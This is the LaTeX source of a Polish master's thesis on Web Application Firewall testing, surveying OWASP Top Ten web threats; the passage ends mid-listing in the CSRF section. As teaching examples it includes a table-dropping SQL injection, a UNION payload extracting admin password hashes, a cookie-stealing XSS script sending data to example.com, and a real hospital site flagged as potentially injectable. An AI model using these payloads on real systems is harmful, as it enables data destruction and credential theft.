\documentclass[11pt,a4paper,polish,thesis,oneside]{dcsbook}
%\documentclass[11pt,a4paper,polish,thesis]{dcsbook}
\usepackage[utf8]{inputenc}

\usepackage{babel}
\usepackage{indentfirst}
\usepackage{listings}
\usepackage{graphicx}
\usepackage{hyperref}
\setcounter{secnumdepth}{3}
\setcounter{tocdepth}{3}



\graphicspath{ {images/} }


\lstdefinelanguage{diff}{
  morecomment=[f][\color{blue}]{@@},     % group identifier
  morecomment=[f][\color{red}]-,         % deleted lines 
  morecomment=[f][\color{green}]+,       % added lines
  morecomment=[f][\color{magenta}]{---}, % Diff header lines (must appear after +,-)
  morecomment=[f][\color{magenta}]{+++},
}


\lstset{
    breaklines=true,
    postbreak=\raisebox{0ex}[0ex][0ex]{\ensuremath{\color{red}\hookrightarrow\space}}
}


\begin{document}

\author{inż.~Jakub Woźniak}
\title{Web Application Firewall}
\secondtitle{\textsc{Projekt i implementacja narzędzia testującego bezpieczeństwo reguł ModSecurity}}
\supervisor{dr inż.~Michał Szychowiak}
\date{Poznań, 2017}
\maketitle
\frontmatter
\tableofcontents
\mainmatter

% http://www.securityweek.com/evaluating-web-application-firewalls-things-keep-mind

\chapter{Wstęp}

Aplikacje internetowe (ang. \textit{web applications}) stopniowo wypierają ich okienkowe odpowiedniki. Przeglądarka internetowa stała się nieodłącznym elementem pracy przy komputerze. Popularność zyskują również systemy operacyjne, które opierają się wyłącznie o przeglądarkę i~przetwarzanie w chmurze. Wraz z upowszechnieniem się aplikacji internetowych, wzrosła również liczba ataków komputerowych, które mają na celu uzyskanie dostępu do prywatnych danych użytkowników lub zmuszenie ich do nieświadomego podjęcia jakiejś akcji. Baza danych \textit{Common Vulnerabilities and Exposures}\cite{cve} zawiera ponad 82 tysiące\footnote{stan na 17 marca 2017 r.} unikalnych, skatalogowanych podatności oprogramowania.

Dostępność otwartego i~rozbudowanego oprogramowania takiego jak Wordpress\cite{wordpress} czy Joomla\cite{joomla} połączona z dynamicznym rozwojem i~aktywnością społeczności programistów o różnym doświadczeniu stanowi poważny problem dla bezpieczeństwa tych aplikacji i~danych osób z nich korzystających. Wiele z odkrytych podatności znajduje się w~nieoficjalnych wtyczkach napisanych przez wolontariuszy i~udostępnionych na otwartych licencjach. Osoby zarządzające serwisami opartymi o ww. systemy często nie są świadome tych zagrożeń i~nie aktualizują oprogramowania na swoich serwerach. 

Dla samego systemu Wordpress w CVE skatalogowano ponad 290 podatności (statystyka nie dotyczy wtyczek), a~ostatnia z~nich opublikowana 11 marca 2017 roku dotyczy ataku typu CSRF\footnote{stan na 17 marca 2017 r.}, który pozwala na nadmierne wykorzystanie zasobów serwera (procesor, pamięć operacyjna), co w ostateczności może doprowadzić do ataku typu Denial of Service i~spowodowania niedostępności serwisu.

Również zamknięte i~komercyjne oprogramowanie nie jest wolne od błędów. Invision Power Board\cite{ipb} to komercyjny system pozwalający na prowadzenie forum dyskusyjnego. W bazie CVE znajduje się 11 odkrytych podatności\footnote{stan na 17 marca 2017 r.}, ostatnia jest z 12 lipca 2016 roku i~dotyczy możliwości zdalnego wykonania kodu na serwerze.

W styczniu 2017 roku w CVE skatalogowano 1085 podatności, znaczna część z nich dotyczyła bezpieczeństwa aplikacji internetowych. Były to m.in.\ ataki typu: XSS, SQL Injection, CSRF i zdalnego wykonania kodu. W przypadku otwartego oprogramowania społeczność zazwyczaj dość szybko reaguje na pojawiające się zagrożenia, pojawiają się aktualizacje bezpieczeństwa, które należy pobrać i~zainstalować na własnym serwerze. Zamknięte oprogramowanie wymaga reakcji producenta, co może wiązać się z długim czasem oczekiwania czy nawet negacją zagrożenia ze strony dostawcy.

Niestety nawet natychmiastowe wydanie aktualizacji przez producenta nie gwarantuje nam bezpieczeństwa. Aplikacje takie jak Wordpress czy Invision Power Board są utrzymywane i~zarządzane przez właściciela serwisu (np.\ przez nas samych). O podatności odkrytej w nocy możemy dowiedzieć się dopiero następnego dnia lub całkowicie przeoczyć taką informację. Crackerzy mogą spróbować zaatakować naszą stronę przy pomocy całkowicie nowego sposobu (zanim zostanie on upubliczniony, tzw. \textit{zero-day exploit}).

Powstała potrzeba posiadania zabezpieczenia podobnego do oprogramowania antywirusowego, które potrafi rozpoznawać zagrożenia bazując na znanych sygnaturach i~dodatkowo przeciwdziałać nieznanym atakom przy pomocy heurystyk. Takim odpowiednikiem jest Web Application Firewall, który występuje zarówno jako oprogramowanie pośredniczące instalowane na standardowych systemach operacyjnych, jak i~rozwiązania sprzętowe (np. wbudowane w urządzenia klasy UTM\footnote{Unified Threat Management}). WAF dokonuje analizy ruchu na 7.~warstwie modelu OSI i~zależnie od wyniku algorytmu oceniającego zagrożenie --- blokuje lub dopuszcza ruch z/do serwera www.  

\section*{Cel i zakres pracy}
Celem niniejszej pracy magisterskiej jest stworzenie narzędzia pozwalającego na automatyczne testowanie konfiguracji Web Application Firewall. Test ma polegać na przygotowaniu zestawu wektorów ataku, przeprowadzenie tego ataku na testowany WAF, a~następnie ocenę czy ruch sieciowy został poprawnie zablokowany. W celu przygotowania pracy magisterskiej należało dokonać analizy bieżących zagrożeń dotyczących aplikacji internetowych i~zapoznanie się z istniejącymi rozwiązaniami klasy WAF (w szczególności ModSecurity\cite{modsec}). Następnie wykonano prototypową realizację narzędzia testującego i~przeprowadzono testy konfiguracji na przygotowanym środowisku. Na podstawie wyników testów podjęto próbę przygotowania zestawu reguł, które pozwoliłyby na zablokowanie zagrożeń, które nie zostały wykryte przez WAF.

Struktura pracy jest następująca. W rozdziale 2 zamieszczono wprowadzenie teoretyczne, które zawiera listę najpopularniejszych zagrożeń aplikacji internetowych, a także opisano metody ochrony przed atakami (w tym mechanizmy wbudowane w przeglądarki oraz zewnętrzne urządzenia i aplikacje). Rozdział 3 jest poświęcony projektowi narzędzia do przeprowadzania aktywnych testów bezpieczeństwa aplikacji chronionych przez Web Application Firewall. Zawiera opis architektury programu, definicję języka opisującego wektory ataków i szczegóły implementacji. Rozdział 5 to opis testów funkcjonalnych zaimplementowanego narzędzia. Rozdział 6 stanowi podsumowanie pracy.


\chapter{Wprowadzenie teoretyczne}
Realizacja pracy wymagała zapoznania się z technologiami wykorzystywanymi przy tworzeniu aplikacji internetowych i potencjalnymi zagrożeniami bezpieczeństwa, na które są te aplikacje narażone.
\section{Zagrożenia aplikacji internetowych}
% OWASP TOP 10
Współczesne aplikacje internetowe są wielowarstwowe i wykorzystują różne technologie, m.in.~kod wykonywany po stronie klienta (JavaScript), kod wykonywany po stronie serwera (np.~PHP, Python, Ruby), bazy danych, itp.. Każda z tych technologii jest narażona na obecność podatności, które mogą być wykorzystane przez crackerów do wykradzenia informacji poufnych.

Internetowa społeczność \textbf{Open Web Application Security Project (OWASP)}\cite{owasp} zajmuje się tworzeniem artykułów, dokumentacji i narzędzi związanych z bezpieczeństwem sieci komputerowych. Jeden z ich największych projektów to \textbf{OWASP Top Ten}, którego celem jest podniesienie świadomości użytkowników na temat bezpieczeństwa aplikacji przez publikowane listy 10 najważniejszych zagrożeń. Poniżej zaprezentowano listę zagrożeń aplikacji internetowych wg \textbf{OWASP Top Ten 2017 Project}.

\subsection{Iniekcja kodu}
Iniekcja kodu to wykorzystanie błędu, który pozwala na przekazanie do wykonania niezaufanych danych wprowadzonych z zewnątrz. Potencjalnie narażona jest na to każda aplikacja w której użytkownik może wprowadzić dane. Atak polega na wprowadzeniu tekstu, który wykorzystuje składnię atakowanego interpretera, stąd jest on prosty do wykonania i bardzo skuteczny. Szczególnie narażone są następujące technologie: SQL, LDAP, XPath, NoSQL, polecenia systemu operacyjnego, parsery XML. itp.. Iniekcja może spowodować wyciek informacji, utratę danych (lub ich uszkodzenie), a w skrajnych przypadkach nawet całkowite przejęcie kontroli nad systemem.

Ochrona przed tym atakiem jest dość prosta, znaczna część bibliotek (np. do komunikacji z bazami danych) udostępnia mechanizmy pozwalające na separację wprowadzonych danych od składni interpretera (wiązanie zmiennych).

\subsubsection*{Przykład}
\begin{lstlisting}[language=php,frame=single,caption=kod podatny na iniekcję,label=injectionphp,numbers=left]
<?php

$id = $_GET["id"];
$query  = "SELECT id, name, price FROM products WHERE id = $id";
$result = pg_query($conn, $query);

?>
\end{lstlisting}
Zaprezentowany kod \ref{injectionphp} przyjmuje wartość parametru \textit{id} przekazaną przy pomocy URI przez użytkownika, a następnie zapisuje ją do zmiennej. Zmienna ta jest wykorzystana w zapytaniu SQL (linia 4). Brak weryfikacji zawartości tej zmiennej spowoduje wstawienie do zapytania dowolnego kodu przekazanego w parametrze. Jeżeli do zmiennej zostanie wprowadzona wartość \lstinline[frame=single]|4; DROP TABLE products; --|, to ostatecznie wykonane zapytanie będzie wyglądało następująco: 
\begin{lstlisting}
SELECT id, name, price FROM products WHERE id = 4; DROP TABLE products; --
\end{lstlisting}
Powyższe wykonanie spowoduje usunięcie z bazy danych relacji o nazwie \textit{products}.

Podatność na iniekcję kodu SQL wykryto np. w popularnym systemie zarządzania treścią JPortal (CVE-2007-5973). Pozwalała ona na wykonanie dowolnego kodu SQL przez parametr \textit{topic} w skrypcie \textit{articles.php}

\begin{lstlisting}[language=php,frame=single,caption=podatność articles.php w systemie JPortal,label=injectionjportal,numbers=left]
<?php

function topic_name($a)  
{     
global $topic_tbl; 
$query = "SELECT * FROM $topic_tbl WHERE id=$a"; 
$result = mysql_query($query);   
$r = mysql_fetch_array($result);     
return '<a href="articles.php?topic='.$a.'" class="t_main">'.$r['title'].'</a>';   
} 

?>
\end{lstlisting}

Przekazanie do parametru wartości \lstinline|-1+UNION+SELECT+1,pass,3,4,5+FROM+admins/| pozwalało na otrzymanie nazwy użytkownika i skrótu hasła (MD5 bez soli) kont z uprawnieniami administratora.

\begin{figure}[h]
\centering

\includegraphics[scale=0.4]{szpital}

\caption{strona SPZOZ w Kole, potencjalnie podatna na atak SQL Injection}
\label{fig:szpital}
\end{figure}

Na rysunku \ref{fig:szpital} pokazano stronę internetową Samodzielnego Publicznego Zakładu Opieki Zdrowotnej w Kole, która potencjalnie jest podatna na atak SQL Injection. Wartość parametru \textbf{id} w URI jest umieszczona bezpośrednio w zapytaniu SQL, a błąd wygenerowany przez system zarządzania bazą danych został wyświetlony bezpośrednio w formularzu (brak obsługi błędu po stronie aplikacji).

\subsection{Błędy uwierzytelnienia i zarządzania sesją}
Kolejnym popularnym zagrożeniem są błędy związane z uwierzytelnieniem użytkowników i zarządzaniem sesją. Dane związane z sesją (nazwa użytkownika, hasło, identyfikator sesji) są często przechowywane w sposób narażający na ujawnienie informacji --- brak funkcji skrótu lub szyfrowania, przesyłanie danych w formie czystego tekstu. Szczególnie ważny jest tutaj mechanizm, który rozpoznaje uprawnienia użytkownika podczas kolejnych, niezależnych żądań HTTP. Często wiele z tych danych jest przechowywanych w postaci ciasteczka \textit{(ang. cookie} po stronie przeglądarki, jego przechwycenie lub modyfikacja może spowodować przejęcie konta ofiary lub eskalację uprawnień.

W nowszych systemach, użytkownik w ciasteczku otrzymuje wyłącznie informacje o identyfikatorze sesji, a dane z nią związane przechowywane są po stronie serwera. Takie rozwiązanie jest również podatne na atak fiksacji sesji. Jeżeli weryfikowany jest tylko identyfikator sesji, to przechwycenie tego identyfikatora powoduje przejęcie sesji. Potencjalnie zagrożone są aplikacje:
\begin{itemize}
\item przechowują identyfikator sesji w adresie URI,
\item nie regenerują identyfikatora przy logowaniu,
\item nie korzystają z mechanizmu wygasania sesji po określonym czasie,
\item nie weryfikują innych danych żądania poza identyfikatorem (np. adresu IP czy sygnatury przeglądarki),
\item przesyłają informacje nieszyfrowanym kanałem.
\end{itemize}

\subsubsection*{Przykład}
Załóżmy istnienie sklepu internetowego, który przechowuje identyfikator sesji w URI. Zalogowany użytkownik \textit{A} przegląda stronę i chce pokazać ofertę innej osobie, więc kopiuje z przeglądarki adres strony o następującej postaci:
\begin{lstlisting}
http://example.com/sklep/oferta.php?sessid=5aef77ef7aa
\end{lstlisting}
Użytkownik \textit{B} po wejściu na otrzymany adres będzie zalogowany z uprawnieniami użytkownika \textit{A} i otrzyma dostęp do wszystkich informacji o tym użytkowniku, które są przechowywane w systemie.

Innym, bardziej prawdopodobnym atakiem jest przekazanie ofierze adresu z spreparowanym identyfikatorem sesji. Jeżeli aplikacja nie regeneruje identyfikatora po zalogowaniu, to atakujący będzie mógł przejąć sesję, jeśli ofiara zaloguje się przy pomocy przekazanego adresu. Na taki atak był podatny system CMS Symphony2 (CVE-2016-4309). Przy błędnie skonfigurowanym interpreterze języka PHP (brak wymuszenia przechowywania identyfikatora sesji w ciasteczku) atakujący mógł wymusić konkretny identyfikator sesji przy pomocy parametru \textit{PHPSESSID} przekazanego w URI. Stosowna poprawka pojawiła się w repozytorium projektu i usunęła wskazaną podatność (przykład \ref{symphonydiff}).

\begin{lstlisting}[language=diff,frame=single,caption=łatka naprawiająca podatność fiksacji sesji w Symphony2 \cite{symphony},label=symphonydiff,numbers=left]
diff --git a/symphony/lib/core/class.session.php b/symphony/lib/core/class.session.php
index c0075a1..dedb526 100644
--- a/symphony/lib/core/class.session.php
+++ b/symphony/lib/core/class.session.php
@@ -58,6 +58,9 @@ public static function start($lifetime = 0, $path = '/', $domain = null, $httpOn
 
             if (session_id() == '') {
                 ini_set('session.save_handler', 'user');
+                ini_set('session.use_trans_sid', '0');
+                ini_set('session.use_strict_mode', '1');
+                ini_set('session.use_only_cookies', '1');
                 ini_set('session.gc_maxlifetime', $lifetime);
                 ini_set('session.gc_probability', '1');
                 ini_set('session.gc_divisor', Symphony::Configuration()->get('session_gc_divisor', 'symphony'));
\end{lstlisting}

\subsection{Cross-site scripting (XSS)}
\textit{Cross-Site Scripting} (XSS) to sposób ataku na aplikację internetową, który polega na możliwości osadzenia kodu JavaScript w treści strony internetowej w taki sposób, by był on wykonany po stronie przeglądarki ofiary ataku. Atak ten jest możliwy jeżeli aplikacja zmienia zawartość strony internetowej na podstawie danych wprowadzonych z zewnątrz (np. parametry GET/POST) bez uprzedniej zamiany znaków specjalnych HTML na encje. 

Wyróżnia się dwa rodzaje ataku XSS:
\begin{itemize}
\item persistent XSS --- kiedy kod zostaje zapamiętany przez aplikację internetową i jest wyświetlony każdemu odwiedzającemu,
\item non-persistent XSS --- kiedy kod jest dostępny tylko w odpowiedzi na konkretne żądanie HTTP.
\end{itemize}

Wykonanie dowolnego kodu JavaScript po stronie przeglądarki ofiary może mieć następujące skutki:
\begin{itemize}
\item przejęcie sesji użytkownika lub innych danych przechowywanych w ciasteczkach,
\item podmiana zawartości strony internetowej (np. numerów kont bankowych do przelewu),
\item przekierowanie użytkownika na inną stronę,
\item pobranie złośliwego oprogramowania,
\item przesłanie zawartości strony (np. danych osobowych) na inny serwer.
\end{itemize}

\subsubsection*{Przykład}
Przykład \ref{xss1} zawiera kod strony podatnej na atak XSS. W ciasteczku przechowywana jest wartość \textit{secret=password}. Następnie na stronie wyświetla się napis \textit{Hello <var>}, gdzie \textit{var} to parametr przekazany w URL.

\begin{lstlisting}[language=php,frame=single,caption=przykładowy kod strony podatnej na XSS,label=xss1,numbers=left]
<?php

setcookie("secret", "password");
echo "<h1>Hello ".$_GET["name"]."</h1>";

?>
\end{lstlisting}

Przekazanie kodu \ref {xss2} w postaci parametru \textit{name} spowoduje wykonanie tego kodu po stronie przeglądarki. Efektem wywołania będzie przekierowanie użytkownika na adres internetowy z przekazaną zawartością ciasteczka w adresie URL.

\begin{lstlisting}[language=php,frame=single,caption=przykład wykorzystania podatności XSS,label=xss2,numbers=left]
<script>document.location="http://example.com/?c="+document.cookie;</script>

%3Cscript%3Edocument.location%3D%22http%3A%2F%2Fexample.com%2F%3Fc%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E (wersja zakodowana)
\end{lstlisting}

W 2014 roku odkryto podatność aplikacji TweetDeck \cite{tweetdeck} (działającej jako rozszerzenie do przeglądarki Google Chrome), która oferowała interakcję z popularnym serwisem społecznościowym Twitter. Podatność polegała na renderowaniu treści tweeta z wykorzystaniem silnika interpretującego JavaScript i bez zamiany danych pobranych z API na encje.

\begin{figure}[h]
\centering

\includegraphics[scale=0.75]{tweetdeck}
\label{tweetdeckpng}
\caption{tweet wykorzystujący podatność XSS w TweetDeck}
\end{figure}

Użytkownik \textit{@derGeruhn} zamieścił na swoim profilu wpis, który wykorzystywał odnalezioną podatność. Wyświetlony w aplikacji TweetDeck zawierał tylko emotikonę serca, a poprzedzający ją kod został wykonany z uprawnieniami ofiary. Zamieszczony kod powodował rozpowszechnienie wpisu przez skopiowanie go na profil ofiary (\textit{ang. retweet}). Próba usunięcia wpisu kończyła się pojawieniem się komunikatu ,,XSS in Tweetdeck''.

\subsection{Błędna kontrola dostępu do obiektu}
Ataki wykorzystujące błędną kontrolę dostępu do obiektu polegają na podmianie parametrów autoryzujących lub bezpośrednie wywołanie niepublicznych funkcji, do których dostęp nie jest odpowiednio weryfikowany. Jest to szczególnie ważne przy projektowaniu publicznych API, gdzie URL często zawiera nazwy obiektów. Przez modyfikowanie tej nazwy można odwołać się do obiektu, do którego nie mamy dostępu. Jest to podatność prosta do wykrycia, niestety jej obecność może umożliwić ujawnienie poufnych danych zgromadzonych w systemie.

\subsubsection*{Przykład}
Kod (przykład \ref{da01}) odpowiada za pobranie wiadomości prywatnych użytkownika. Załóżmy, że funkcja \textit{LookupMessageObject} weryfikuje czy dane są numeryczne, a wiadomości są składowane w jednym miejscu (niezależnie od użytkownika), identyfikowane wyłącznie wg identyfikatora tej wiadomości. Kod aplikacji prawidłowo sprawdza czy użytkownik jest zalogowany. Wywołanie funkcji \textit{DisplayPrivateMessage} nie weryfikuje uprawnień zalogowanego użytkownika do żądanej wiadomości. Każdy zalogowany użytkownik może modyfikując parametr \textit{id} próbować pobrać dowolną wiadomość (zakładając sekwencyjne przydzielanie identyfikatora jest to bardzo proste) z pozytywnym skutkiem.

\begin{lstlisting}[language=perl,frame=single,caption=przykładowy kod podatny na bezpośrednie odwołanie \cite{directaccess},label=da01,numbers=left]
sub DisplayPrivateMessage {
my($id) = @_;
my $Message = LookupMessageObject($id);
print "From: " . encodeHTML($Message->{from}) . "<br>\n";
print "Subject: " . encodeHTML($Message->{subject}) . "\n";
print "<hr>\n";
print "Body: " . encodeHTML($Message->{body}) . "\n";
}

my $q = new CGI;
# For purposes of this example, assume that CWE-309 and
# CWE-523 do not apply.
if (! AuthenticateUser($q->param('username'), $q->param('password'))) {
ExitError("invalid username or password");
}

my $id = $q->param('id');
DisplayPrivateMessage($id);
\end{lstlisting}

W 2015 roku odkryto wiele podatności w rozszerzeniu dla systemu Wordpress --- TheCartPress (CVE-2015-3300) \cite{thecartpress}. Jedna z nich polegała na błędnej kontroli dostępu do obiektu. Atakujący mógł otworzyć następujący URL [\ref{thecartpress1}], a następnie przejść na adres [\ref{thecartpress2}], który zawiera pełne informacje dotyczące zamówienia w sklepie internetowym. Identyfikator zamówienia jest inkrementacją poprzedniej wartości, stąd łatwo przewidzieć dozwolone wartości i otrzymać pełne informacje o wszystkich zamówieniach w systemie.

\begin{lstlisting}[caption=adres URL zamówienia w systemie TheCartPress,label=thecartpress1]
http://wordpress/shopping-cart/checkout/?tcp_checkout=ok&order_id=[order_id]
\end{lstlisting}

\begin{lstlisting}[caption=adres URL przeznaczony dla administratora do podglądu zamówienia,label=thecartpress2]
http://wordpress/wp-admin/admin-ajax.php?order_id=[order_id]&action=tcp_print_order
\end{lstlisting}


\subsection{Błędna konfiguracja bezpieczeństwa}
Błędy związane z konfiguracją bezpieczeństwa mogą wystąpić praktycznie na każdej warstwie aplikacji: sprzęt, system operacyjny, serwer WWW, system zarządzania bazą danych, kod źródłowy. Szczególną uwagę należy zwrócić na aktualizacje bezpieczeństwa, które łatają podatności oprogramowania wykorzystywanego na serwerze. Ważnym elementem jest również prawidłowa konfiguracja zapory sieciowej i udostępnienie tylko potrzebnych usług. Gotowe aplikacje internetowe często posługują się domyślnym kontem administratora, które ma powszechnie znane hasło. Takie konta należy dezaktywować, ponieważ nawet zautomatyzowane ataki wykorzystują te dane do prób włamania. Również przy tworzeniu własnego oprogramowania można popełnić wiele błędów. Platformy programistyczne (\textit{ang. framework}) często udostępniają tryb debugowania, który podczas błędów udziela szczegółowych informacji o wystąpieniu problemu (nawet z fragmentami kodu). Pozostawienie takiego trybu na systemach produkcyjnych może spowodować wyciek informacji o architekturze systemu i wartości sekretnych zmiennych.

\subsubsection*{Przykład}
Django \cite{django} to framework dla języka Python, który pozwala na tworzenie aplikacji internetowych. Na szczególną uwagę zasługują dwie zmienne środowiskowe w pliku konfiguracyjnym: \textit{DEBUG} i \textit{SECRET\_KEY}. Główną funkcją zmiennej \textit{DEBUG} jest szczegółowy widok błędu. Gdy aplikacja napotka na błąd wykonania (nieprzechwycony wyjątek) to wyświetli dokładny opis problemu, wraz z fragmentami kodu na stosie wywołań, zawartością plików konfiguracyjnych i treścią żądania HTTP. W celu zwiększenia bezpieczeństwa, twórcy Django dodali automatyczne usuwanie wartości zmiennych o nazwach podobnych do ,,pass'', ,,token'', itp. W połączeniu z dodatkowymi rozszerzeniami, programista może w łatwy sposób uzyskać interaktywną konsolę z interpreterem języka Python, która będzie działała na stronie ze szczegółami błędu. Uruchomienie aplikacji w tym trybie na systemie produkcyjnym pozwoli atakującemu w łatwy sposób przejąć kontrolę nad powłoką systemową i wykonać dowolne polecenia. Zmienna \textit{SECRET\_KEY} służy do podpisów kryptograficznych i powinna być unikalna oraz nieprzewidywalna. Częstym błędem jest niezmienianie wartości tej zmiennej po pobraniu projektu, przez co atakujący może podpisać własne dane przy pomocy znanego klucza, a aplikacja zaakceptuje je i np.~autoryzuje użytkownika.

W 2009 roku znany portal internetowy wykop.pl został zaatakowany, czego skutkiem był wyciek bazy danych serwisu wraz z danymi o użytkownikach (nazwy, skróty haseł bez soli, adresy e-mail) \cite{wykop}. Baza danych przeznaczona do celów deweloperskich (zawierające kopię bazy produkcyjnej z zachowaniem oryginalnych danych) była dostępna publicznie, bez weryfikacji adresu IP klienta, a sama usługa działała na domyślnych ustawieniach --- brak hasła dla użytkownika \textit{root}. Atakujący w łatwy sposób uzyskali pełną kontrolę nad usługą bazy danych i skopiowali składowane tam informacje.

\subsection{Ujawnienie wrażliwych danych}
Przy projektowaniu aplikacji internetowej należy mieć na uwadze możliwość uzyskania przez atakującego dostępu do składowanych danych lub kopii zapasowych tych danych. Jest to możliwe na wszystkich etapach komunikacji sieciowej --- dostęp do danych składowanych na serwerze, podsłuchanie ruchu sieciowego, uzyskanie informacji z przeglądarki internetowej ofiary. Algorytmy kryptograficzne są ciężkie do złamania, dlatego atakujący skupiają się na słabych elementach systemu: kradzież kluczy kryptograficznych, atak typu man-in-the-middle, pozyskanie danych w postaci czystego tekstu po deszyfrowaniu wiadomości przez serwer.

Szczególnie wrażliwe dane to: hasła użytkowników, dane osobowe, numery kart kredytowych, itp. Zagrożeniem dla aplikacji jest przechowywanie lub przesyłanie tych danych w postaci czystego tekstu. Jeżeli wprowadzono mechanizmy kryptograficzne, to należy zadbać o dobranie silnych algorytmów i kluczy kryptograficznych (którymi należy odpowiednio zarządzać i rotować co określony czas). Wciąż popularne jest przechowywanie haseł użytkowników w formie skrótu MD5 lub SHA1 bez wprowadzonego ciągu zaburzającego (tzw.~soli). Korzystanie z tych algorytmów jest niezalecane, ponieważ stosunkowo łatwo jest odnaleźć pierwotną formę hasła (nawet przy pomocy ataków typu \textit{brute force}). 

Dane przesyłane przy pomocy protokołu HTTP powinny być również szyfrowane, służy do tego protokół TLS. Do ustalenia bezpiecznego kanału komunikacji wykorzystuje się certyfikaty X.509. Współcześnie uzyskanie takiego certyfikatu jest bardzo proste. Projekt Let's Encrypt zarządzany przez Internet Security Research Group ma na celu upowszechnienie stosowania protokołu HTTPS. Jest to urząd certyfikacji, który oferuje darmowe certyfikaty X.509. Dzięki temu można w prosty sposób zapewnić podstawowe bezpieczeństwo komunikacji bez ponoszenia dodatkowych kosztów.

\subsubsection*{Przykład}
W czerwcu 2016 roku największy rosyjski portal społecznościowy VK.com został zaatakowany \cite{vk}. W wyniku ataku uzyskano dostęp do bazy danych serwisu, która zawierała dane osobowe użytkowników, adresy e-mail oraz hasła przechowywane w formie czystego tekstu. Kopia bazy zawierała ponad 100 milionów rekordów. Było to szczególnie niebezpieczne dla tych użytkowników, którzy korzystali z tego samego hasła również w innych serwisach internetowych. 


\subsection{Niewystarczająca ochrona przed atakami}
Zabezpieczenie się przed wszystkimi rodzajami ataków jest bardzo trudne do zrealizowania. Niektóre z nich nie wykorzystują podatności samej aplikacji, a np.~próbują w zautomatyzowany sposób odgadnąć hasła użytkowników metoda siłową. W celu zwiększenia bezpieczeństwa należy wdrożyć mechanizmy wykrywania i reagowania na ataki (manualne i zautomatyzowane).

Detekcja ataków polega na monitorowaniu przychodzącego ruchu sieciowego (również na warstwie aplikacji) i analizie pod kątem: częstotliwości żądań, wprowadzanych danych, powtarzalności, itp. Nawet podstawowa metryka polegająca na analizie wolumenu ruchu per adres IP pozwala na wykrycie anomalii i podjęcie odpowiedniej reakcji. Reagowanie na ataki to przede wszystkim powiadomienie administratorów o zaistniałym potencjalnym zagrożeniu. Na podstawie rejestrów zdarzeń można podjąć decyzję o zablokowaniu danego adresu IP lub całego zakresu. W przypadku uwierzytelnionych użytkowników jedną z możliwości jest zablokowanie konta użytkownika.

Odnalezione podatności wymagają wytworzenia przez programistów odpowiedniej aktualizacji. W przypadku zewnętrznego oprogramowania, proces ten może potrwać nawet kilka tygodni. W tym celu można wykorzystać mechanizmy, które analizują ruch HTTP i blokują określone wzorce żądań wykorzystujące podatności aplikacji.

\subsubsection*{Przykład}
Jednym z popularnych mechanizmów do obrony przed atakami siłowymi jest mechanizm \textit{CAPTCHA}. Polega on na wyświetleniu przy np. trzeciej i każdej kolejnej nieudanej próbie pewnego dodatkowego zadania, które użytkownik musi wykonać. Zazwyczaj polega to na przepisaniu frazy z wyświetlonego obrazu, który jest przygotowany w taki sposób, by utrudnić pracę algorytmom OCR. 


\subsection{Cross-Site Request Forgery (CSRF)}
Jest to metoda ataku na aplikację internetową, która polega na wykorzystaniu przez atakującego uprawnień ofiary do nieświadomego wykonania przez nią określonej operacji. Atak ten jest często wykorzystywany razem z XSS.
Ataki CSRF zazwyczaj powodują wykonanie żądania HTTP, które zmienia stan obiektu --- atakujący nie ma możliwości odebrania odpowiedzi na żądanie od serwera, dlatego atak ten jest skuteczny np.~przy zmianie hasła ofiary, wykonaniu przelewu lub w przypadku gdy użytkownik posiada podwyższone uprawnienia --- naruszeniu strony internetowej.

Przeprowadzenie ataku wymaga zmuszenia ofiary do wykonania określonego żądania HTTP. Może to być wykonane przy pomocy inżynierii społecznej. Czasami istnieje możliwość ,,przechowania'' ataku w samej aplikacji, np.~w tagu HTML lub przy pomocy bardziej skomplikowanego ataku XSS. Żądania wykonywane przez przeglądarkę automatycznie zawierają dane związane z odwiedzaną stroną takie jak adres IP czy HTTP Cookie. Ofiara nieświadomie wykona zapytanie do serwera, które zmienia stan atakowanego obiektu. Odpowiedź serwera trafia do ofiary (ale jest ona ukryta), dlatego celem ataku nie są dane.

Współcześnie zręby projektowe, na podstawie których buduje się aplikacje internetowe, posiadają już gotowe zabezpieczenia przed atakiem CSRF przy pomocy żetonów. Do każdego wygenerowanego formularza (i równocześnie sesji użytkownika) przynależy żeton CSRF o losowej wartości, który należy przekazać w żądaniu do serwera. Zazwyczaj żeton ten jest przechowywany w formularzu w postaci ukrytego pola. Atakujący musiałby najpierw pobrać zawartość strony z formularzem aby poznać wartość, jaką następnie musiałby przekazać podczas wykorzystywania uprawnień ofiary.

\subsubsection*{Przykład}
\begin{lstlisting}[language=html,frame=single,caption=przykładowy kod HTML podatny na atak CSRF \cite{csrf-example},label=csrf01,numbers=left]
<form action="/url/profile.php" method="post">
